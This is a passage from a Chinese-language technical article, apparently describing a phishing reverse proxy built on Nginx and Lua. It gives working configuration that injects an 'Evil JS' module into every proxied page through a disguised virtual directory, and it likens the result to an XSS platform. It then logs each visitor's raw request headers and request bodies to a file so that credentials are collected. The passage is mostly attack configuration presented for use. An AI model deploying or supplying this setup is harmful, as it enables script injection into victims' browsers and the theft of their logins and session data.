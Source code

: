                                whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"  
                               ngx.arg[1] = whole  
                            end  
                    }

在修改网页内容之前，需要通过`header_filter_by_lua_block`将`Content-
Length`进行清空，因为修改后，`Content-Length`的大小一定是改变的。

#### 使用ES6+标准将JS模块化

    
    
    <script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>

其中`static.js`就是引入的Evil JS，添加了`type='module'`是为了启用ES6+标准。

![](https://gitee.com/fuli009/images/raw/master/public/20230714181141.png)notion
image

为了不和源站的目录冲突，`7276df76835ed2272cc0e59f55e49902`其实是一个虚拟的目录，通过`location`映射即可。

    
    
    location ^~ /7276df76835ed2272cc0e59f55e49902/ {  
                    alias    /tmp/pricking/static/;  
    }

关于Import的说明可以看这篇文章。

使用模块化功能可以让这个项目吸收更多关于浏览器丰富的操作，就像XSS平台那样。

#### Nginx - 记录日志或凭证

由于`log_by_lua_block`是最后一个流程，可以把一些数据进行收集，写入日志文件。

    
    
    ...  
      
    http {  
        ....  
        log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';  
      
        server {  
                set $request_headers "";  
                set $current_time "";  
               ....  
      
                location / {  
                    ...  
                    log_by_lua_block {  
                        ngx.var.current_time = ngx.localtime()  
                        ngx.var.request_headers = ngx.req.raw_header()  
                    }  
            }  
            access_log /tmp/pricking/access.log logeverything;  
        }  
    }
